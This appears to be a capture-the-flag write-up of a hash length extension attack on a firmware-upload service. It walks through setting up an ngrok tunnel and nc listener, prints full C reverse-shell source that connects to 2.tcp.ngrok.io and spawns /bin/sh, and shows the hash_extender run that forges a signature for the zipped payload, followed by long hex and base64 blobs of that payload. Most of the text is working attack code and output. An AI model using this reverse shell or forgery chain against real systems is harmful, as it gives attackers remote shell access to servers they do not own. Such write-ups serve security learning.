I tried uploading a `zip` file but I was thrown this error. `sha256(<secret> + raw_file_data)` indicates that the backend is susceptible to [Hash Length Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks).


After going through the article, I understood how it works, but not enough to implement the attack. Luckily, the author created a [hash extender tool](https://github.com/iagox86/hash_extender) to make it easier for us to get the new signature and string.

In a nutshell, this is how to use the tool to do the Hash Length Extension Attack:

```sh
signature = Hash(secret + data) # Signature of a given data (Provided to Attacker)

new_data = data + padding + append_data # Generated new_data to be sent to the server. The append_data is meant to execute instead of data.

new_signature = Hash(secret + new_data) # The server will hash its secret with our new data and generate a new_signature. This will be used to validate against our tool-generated new_signature.

new_signature, new_data = Tool(data, secret_length, append_data, signature) # The attack allow us to generate new_signature and new_data without knowing the secret.
```

In the `firmware-export.json`, the `data`, `secret_length` and `signature` is provided. What is left is our `append_data` which is our zipped up, new malicious `firmware.bin` to be executed on the server. 

I use `NGROK` to expose my local port to the Internet and setup a `nc` Reverse Shell listener.

```sh
>> sudo ngrok tcp 1234

>> nc -lvnp 1234
```

I modified a `C` reverse shell script from PentestMonkey and compile it using `gcc`. Then I zip it up.

```sh
>> sudo nano reverseshell.c
```

```C
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include<netdb.h>

int main(void){
    int port = 19856;
    struct sockaddr_in revsockaddr;

    struct hostent *hostentry;
    hostentry = gethostbyname("2.tcp.ngrok.io");
    char * ipbuf;
    ipbuf = inet_ntoa(*((struct in_addr *)hostentry->h_addr_list[0]));

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr(ipbuf);

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```

```sh
>> gcc reverseshell.c -o firmware.bin

>> zip firmware.zip firmware.bin
```

Now, run the hash extender tool with our new information. The `--append "$(cat firmware.zip | xxd -p)"` is to convert the binary to hex as raw form may corrupt the data. The  `--append-format hex` is used to state that the append data format is in hex.

```sh
>> ./hash_extender --file old_firmware.zip --secret 16 --append "$(cat firmware.zip | xxd -p)" --append-format hex --signature "e0b5855c6dd61ceb1e0ae694e68f16a74adb6f87d1e9e2f78adfee688babcf23" --f sha256
Type: sha256
Secret length: 16
New signature: c7b3f6b8ee040bfc96992c001f15e1994d6076e501904b48867dc638f7ae5fde
New string: 504b0304140000000800d8a5865316a0a8f06a090000e04000000c001c006669726d776172652e62696e5554090003b876ae61b876ae6175780b000104000000000400000000ed5b5f6c1c47199fbdf3d9e73a5e9fd384384ec09792480ee4ce97a4761d5a373edb67afd1c531a91dd45067b3f6ae7d47ef8f7bb747ec0022e0523815973e54a80fed0b79492590287d8107d4045b952a284a1e2a22419109a9e446a05e54885248bdccecceb7de99db6bca0bf0b09f74fbdbef9bef3733fbcdec7ad63bdfb712c9619f2020103f7a14116d3c64e9fdd47ee688ed826dbda8091f3f833e8deab15ee7f0e331e5633168b763f12e523b8fbb118b8203eb506d391360118536790187cee35b028b4e9ed95e98da394c092c3a792436eb114b5fef6351a2d739ee63793ecabb437977fa585c13588478d6d1df2aad8fc721c422c470fc5d5d25e77be9f5f0f8086211785fc2bc7af4c905c27d82b6572b2e6d3e1621ac5d99f474cf835d19359249e74a0b9185de9e48cf83d1623e7ac8ec5388fa8e8c4d9afe647e416849f9366a23e577cffea8f9adb7f7bc240cb584065f3b25567efb97eb1077183784be6d1ee11aaf6abfcb7edcf591ee875dec4df8b7d5c5de51c3fe788d7a5235ece4ba1f70eb108ed70c094f0f9a2fe94524cb330b8a3c9bce2999f4390daba45c2eea4a4197b34a3a874692a30383f2a1e8a168379247278ec9aa56d0e6d2455d2b4c1c1bcce473da84329d21ccb96c3e4799b2e5eaea48c447c7c087e32a98b18579506a4f3712fb41aac3f8c37c8eb55a58e1ec155a41673f6b07fdda510b612c41d61c76bfc3beeeb03b9f2b15873de0b0df71d89df3bf8db6df8036e79d279e78e289279e78e289279efcbf89b4f4d7a0f46ce09d2e7cfadd4bbacfb8222dad0657ec72a3fb3a2e32f6ddc0c7968e7e7c4674f23682de5b33b0ecfb39d6679f07ff837f1b2d5f3d2d95af4b4b372ae313c9e5c029bc0c97969b3f208d2df75d26756e9fc59cbfb7740c99a65748dbcb811f13387247df8ebbf328ed4ea3b1d6d2719ed4bb4211fb2f9afedd0502fb37a4cb1b7ea95c912eaf1f958437a4ab1bfa365cc1765a41d0589b35db01fef9be23b80895ba26a5a5bedb515263f95d7d8bf46c5f7b17792bc557b49ec2873702ad5817a656b8f6dffb3a2e9cc41c1cb850f99b77a572a982fbf44b1193d7360ce317c4e9cd15dce8d3663ce25f1e2dff3e7e72b47c3b3e192f7f14c711d9377f00a149693942f0b1e47e525570bd88c9d2e58ffcfaae837f68e940c9f23f93e5db43e5f7e3c6b63f4a4b2b8274e49dd24d32365f998a3f119f8a9f8ecbb84f6805c69019354f3cf1c4134f3cf1c4134f3cf1c4134f3c6145403e349c2e64cf2a052d9c2e86674b99cc62b8341fd6f36155d1b53dc46797ffe15e647defbafbbe619037dbdd15c3f809c603182730b6de328c558c8f60bc81f1258c0704ebbbabd9ceb91348580809bbb634049f171a42c44ebeed5fc1f57dded11f777f84f652ff79ec1f260e6268586cfb624bd3d9e07974b4fde1cf1ddefb00f0c937ee14f60b3aea25dc27f02f81fb6b3ac6c5d033bec1e6fa29dc00e57c03ffc671f914291f10433ff425c4b6e7fc0931bc5c97103b7f1090c4d833f592d8bbd43022f67f55ec8d8bb1b8d839208607c436ec3f2006cdef9b240e295c8ff3fba3279e78e289279e78e289279e78e2c97f4becfd948efdc94edc028eb4bc99aaab94b793eab04f7317d5e11dab9d22ecd7dccd95ff63c3c89b3add7c097b2aaf511df652c6a87e1fd5bf43b189621bc5ed88157b4f67bf05b00713fce1bdb281e20e8a5280b57fbf8eedf7258a8d5c7dff32aceb01d70daaa728dfa03ac4b742f553b4fc43aa3bf7a2fe2f04f695f3d2136275d85f3b3238f88570e790369d5672e1dee8e1682cd2b3df3ab9675b7e1c8d8b2e9b63fd78b4565ded7e74c3d55e67cf23d61eb0e70f6bafb7e7196b6fb0c783b507ed7164ed8df6fc60edf7d9f388b5376d6e7866ec5b50d8d5de8cfa5deda29d8fc1da5becfb93b5875c378bfb51abbdaf9fb56f45675cedf7dbf73b6bdf66dfe7ac7dbbeb7cf2a34fd9fbb259fb8ecd4411c6de86c2aef69d28e66a6fafb259791bb70cde4e9e733e1ccff35c3c456aff1967df43ed15cefe90d9c6667fe03e1f36cfabe393a5f5c4b8f15a34fdabe3fc628dfed7baae0b66d956a4eee14bdcfd5f358ff757f5f3d7663dd5e3f81beacff7f34fe6b17a5edd32eba91edf9f0a240ed5f7458340f221447489c607e2b94370cf7bc89af6ea79725870cfab4808a4c9b6aaf9d34afc7dd5f751b2463d4fd27af876176af4f37bd8deea6bb39f9f202f10bbe33e85c7ca051a8733b43f53d4fe2b44dadd897ab97a9ea2fef07c80ffa5be2658fefcf5be4efdbb69fd903bb24afbc9fb5fa9715d37851a79273305bda8976667a33368338344d6b3f20c490d2189286a5e9ecbe4a7958caceaf94251564a0b68269f9dcf68baa6461f3a7ca8dbdd8964afa465a5505016652da71716d16c41c96ab25aca661731c5a1c9d853675de9ffb871b76479f844fc58424e8c0d910416d65745f2d0e363f163a3836c8999ef824d2363937242a235484327903c923c3e104fcac787871f4b4cc813f181644286fc9a9962c9ecf5c766d490fc9cfe7e26ff4653155da94ed2e1bc64e265f78c4dcb91d5625e4e293995a4ec8c1ec7056a3a27978a9aeaec1bb940ac4f178bb41a3315489671ff203c35f37bd88c22b66b285a5ccceaca3446bd60610aced2395cd33c8ae6f2ba168d0f8c4674658e6a73b95274ba94cea891b48a4c2da5145328aa2ee6707d16ea05abe46b5aa198cee71845c665052da310477a369fd14993f832c969742e8f4f746d011fcd718916f266a8a35a8ace9f945ad8d42caa35052c069ce316946c7a06911aad46ac7a70285114cfe62c9e766eb7c77f2a649d4d9e85b00caa952709c27f73f82c627392f8bcc030e7cf2f6f0e727c588f01eebd079f7c57b98dd7bac087751b20f061f9e4fc6643640c596b7fe0c3fa0ef022b543be17f0619d7e12b1b980b00e0484f70b103e7ea791b596073eac170145aeff3e0e9f44d6bb01e8b0ae040cd7e83fc83964c514f8b0fe04bcc4b5cf5fffd3943f407558a702821f5177b8f09f43ce9c485495370bef5120fcf897393eac7b6de4fcf9f4dc17383eac8f01f97805397c99e3c3df49c0a7b801e797d917383eac13001b397ffefa5f41ecfdcbe70ff37f4379feab1cbf567e6e2dfeeb1c1fd6f98041eefaf978be89ac390eaf4f76be6ec4dd9f8fffdbf8d7e2e0c37ab3f209f97f466ccea69d0f4df990075dcff1601cc93a5a70f0e13de45a97859df768ff26c7b7d7b3f475377c0ffe071c1fd68de118db4f9e0ff221b5011fd667b198bb3ffffcdaa036feed1cf8b5fe7e38d12d9f751c2aacdfac2782aa9f1f8d8ebe33fc1e4ae72ae7fbdf5a837fb2d7c2068ec0f3ff0d504b01021e03140000000800d8a5865316a0a8f06a090000e04000000c0018000000000000000000ed81000000006669726d776172652e62696e5554050003b876ae6175780b000104000000000400000000504b0506000000000100010052000000b00900000000800000000000000000000000000000000000000000005140504b0304140000000800c12c9053a9ba84e43d0b0000d84200000c001c006669726d776172652e62696e55540900030a17bb610a17bb6175780b000104e803000004e8030000ed5b6f6c14c7159f5dff3bc7f86c0804f3a7c54d418526deb35d701c8883cff6d9ebc6060a362509b09cefd6be83f39d73b7470da95447a62857d760a9515ba96a85d4264aab7ea054552ad426a646d0f4038234a968a3282e25e21cb5a9a104392a709dd99db7de99db25513fb452bb0fee7efb7ef3deccececdbf5ccedbcaf05bada4541402005e87144b4c94a436fa6fcae4da609e61a5119fefe34fa142ac67aa1c58ec788c8a2c76cc7f07b99f23cae442c0a162c44f790120e2be7fd8a2c3a8f774416ad7e7a7bd594e7709fc0a2d58f8c4db6c6d0b34d2c8ed0769ee7da13a9df1cf59b6b62715a6011c6b3907eced2fa786c432cc2186e7b4f0b93e395f47c787c0cb1087e5fc27ec5e8930b0cf776da9ed3b854892cc2b0fa62d1be86f5be58b826168da7876b861b1b6a1ad64ba98454aff769313262aa634b2f2afdd5c1a347bca58f7ca3e9f7c7a7460f97bd756cf93385b40f02b541d41e869f60399abf6e083da77f97d3f24bea85c17b9ddfb3683e34acf200fe2cb2e13d0e7cb503bfc3816f72e0d738f03e07fe3bc8beff5e07fb971cec05077b12770fdaf02895081d503514d112f1140a25e27135a4a1685cd594b89608a2707aa8de5083e170120da85a2491d2fa0ec583832a5287d5d04115294a6838a8f447e3c158f4305171ac849494164c6aca60301a474427a1d2803aba3a5b5a957aa95eda8094ce9e6e25ac26d581684a53933dddadb1445ced09f6c5481d03838938ad43314c6d0d8988cc3f443f221d0f01112b88fff4f26829294d501de21eeee3130b0d9ce5f87d94dfd7ccf154bfbcd9c062347fcf1099b6f045163e6be14b2dfcac852fb3f07316bedcc257d1f6c9e356b4f0d516bec0c2afb5f0d6e778ad85b73e571a2d7c89856fb6f01e0b2f5bf8fb2cfc360bbf00b9e28a2baeb8e28a2baefcff8a3cfa578f3c56f40e5e17c85f9fd4c4dc4579f4ac67ca2ccf6db8828b726baee2ef8a55cdf888e8115234339dc3b2e64f442753ce998bbafe868faef6672675fd77442753c09993bafe1ba293a9dfcc095d3f4d7432359d99d0f553442753c099115dff09d1c9b46d6648d75bb0de3f01fdabfb5b67e6d25e3973451ebd3abbada76bbc68396e5b1e2fffb940a0e90c398725b724846e56ac6ad3a967c8b98e17ed27f0e89cb6049ffe05c938fdd2dc74c5aa1152ef14456cefd7ed376c24b0eeae9c9995cf7cb0593e3357200be7e44b77b5c5b8821769059edc74bfde0ef88f340964c995f6f5caa34d47255263e63d6d813cd6744522ab607c46d908fe3a57f447ac0b7ba6b8f6679ec585bdd8075fa8e6f381db13dd7a9f3af1ba2c3b79379793338159798c7c9aabe43134d6987dca60b3a789fbabe4c2bc46ae46f614e63381abfde70317453416b85df1ca64e67cf631ccf667026fe03ab232d677eb566fcae3dd17c702574f57ea1dbe800b42b80033af925ab1ba98aa82a116515534d45b77701fc68b4e9513efc0a47c3ef05b633003937ab7e4cc397c12dfc2c5d9b7b1e92f09f7fa14892fff97bbc69bb63e84907f6767e60ffedececc87fe1e7fe676af3c5ed38ce91d5debee9098cdb69226cedc29d056d4bd5db10a75656e74653e68cb5cf3e716bf2b8f4e09f2a3efa4df27b1fcf41eff6eff1eff5ebf821b405310f34c94bbe28a2baeb8e28a2baeb8e28a2baefcef8b8044542f69a121293e904c1c90a209e4eb8bc67d29bcc41756146c6a44c6fb98c2d95cee08c61730fe14e38f30f660cc5ccfe5ce62d46ee4725731be89f161c1781fabd77f783b12862b85150b4a3c13424925e1c93b7d19fb3f64e987bd3d42aba9fdf0df73397dd1efad6cf7567db1a2ec2b9e11b479f9a6cf7f61f583e04fde314e633bebfb20e2bb1b7f7e8ddbbb4608bfb7f2a8d85a5e2c5ec12d183e5fc59fe7f179ec21e52ddecae362a7b7ea5841c05b3d5e18f0aefd66519bb7f668b1ec6d1c2de9f036eff736fabdb57eefda166f758bb70adbb7783dfafb3d320e27703dd6f76faeb8e28a2baeb8e28a2baeb8e28a2bff69817d85b08f10d6282a45734f1cdda8087bfc6ed2cd9ccba80efb1557501dd65acb29c2bec5955cf9877773fa96470fdd0c087b1147e82640d8f3574bcb61efde2445d88b5845710962c5dc63d86c00ec45047f585fc21ec2a5605eccf223456cbfc11ff64842fbffcce5600ba76e7a97eafba87f8eea30ceb3546fa6e51f51ddba37f2bf21b0af9c97061a07ed147752eca77890e2518adfa6f8126c74a502fb533b5a5b3756af6d53fba2c178755dad542fd5d534aca347d5f5b5f575b57575b5f7ee6b011ecd97453b5e34f7b9b37c01cadaf285661cb27c91197f2c5f6cc629cb9798d793e53d661cb07ca9195f2c7f9f19872c5f36bf7198e117a06a5bbe1c9db4e5bd663e07cb5798f737cb57da6eee2e400bcdbc00965f8476d9f2f79bcf0b965f6c3e27587e896d3c16a007ccfdcd2cbf743ed184e1abd02e5b7e198ad8f2cbf33823efe37a8ee7dbf4b2f9b8aaa6fc1607fb2711791679d12c37fe4f53be7a21cbc729bf8fe38fe8edcef71f9e2b13fa71fe78be42eb39c1d533a5dbe75f972b0efd773aafeb7a3d8bd0eecff025f6f606717f5e3f2b05524ffe755f2618f67c3f1fd6f9fc38dcacd7931f0f61918c43fe7dd42b903c057c5d68fc9b7f0f05fbbc869b3a9f1f57cf090ef9140269b22a2fde14622fe6df773f70a8e7a4037fc6817fd781bf41fbc3f73fe760bf4474c81f11edc7e771cc2f14abcce73dc81384b73c4fe031fa94688cff046d640fe5cbf47e2e43435c3d73f47ac1730c7e3bde2f1af6fc381fa4f5bf48e3ff1ae59f7538afe3b4ff7c3ddf7338df5f88f6f92c171dea47be742a4992987c03a1906fb8b14169584f539906e2695f5dad4f92e8ffbcc21da1a456272590a204fba28a161c40984869e9fe7e2984e61358146d500991cc9414b60c27948158a22f1853c25a22995282e961144a0c0ec5544d0d4bb5f616248726aa0493c9e021458d6bc943a83f191c5495707a70f01076b1680ab6d418d3a47a504da6d454448dc570bf14a57dbbbf3ba004b6b491041ad63e8c94b627b7f8bb3b5bd9123ddf06531d5b7a95804c6b90dbb623a5a36b6b8bbf4bd9dadebe23d0a3f4f85bba020a64fa845269bde7f7cce831538a9a991c20351cd48246f6115340f28e584b3eab8829353291380752353d253383893161b299386736ff4809a7124a24180f93dca4ceadb8201c8d2be9941ab60e021949acf7a552b4593dfb89265571f5e3c1816be398dcc42656311518695b0c85a4d4a1412dd887514b1a1881a3681cd73d84a4784253251cd3525f3a1a0bd744c394f2b774d690c0d6cb22c1540449e143715c9f815ad2282111164dc41945c1654935162486f46828a69126f16090436920810f3475187feb61222513fa5597d4080de9483839af19ae46441a1e701c26172a1a42a446a311a31e3ce048c277d720be13eceefd7f43c8fa8afc4d82e9ab537e2c08ffcee9b388cdc9e2f3415773f6fcf4b681f387f90e3fef71f227f3a45b788d03fe30df0684f6613a6c7d674784cc3bca2cedc3bc1c701b3d61c877037f589fed446c7e27ccdf0127b9f6f8f1db8b8c351cf8c33c1f10c61ffa2f727800196b42d0613d00588decfb0f721819636af6bf8845e83f3f7e70fe47a87f0bf4bf9845abff521bff63c89a0b8bf2f2a561fd0cc25fff0ce70feb15c009ce9e4fcb7e81f387750d203f5e1e0ebfcff9c3bc01b08e5b17f2cba31f72fe305f032ce5ecf9f3ff3162ef5f3e6f7c0567cffbff8cf377cacb76f27f8df387f519a0870b787e3c5f4746ee2f2c87cd3ced1a7b7b7efcdfc29f0a8b3fccfb673fa1ff9f9131f6e06fe6c153ff69cbfd6ff583ebf85d649c3ff8c3faf1b2cfc0b51fd3fefb9cbfb9aea0bf51ecfa18ff7f70fe30efde55cbf693f707f98872e00ff3d248adbd3dfffcba4b39fe2715f0ff9c83bf156d7e3a4113d4ff321d78f21cf4a1fce747a9a5ef4cfb8f18f817ae72beff0b1dfc9fd8686009e7c0fbff0b504b01021e03140000000800c12c9053a9ba84e43d0b0000d84200000c0018000000000000000000ed81000000006669726d776172652e62696e55540500030a17bb6175780b000104e803000004e8030000504b0506000000000100010052000000830b00000000
```

We store the `new string` in a text file, read it from hex back to binary and convert it to base64.

```sh
>> cat new_string.txt | xxd -p -r | base64 -w 0
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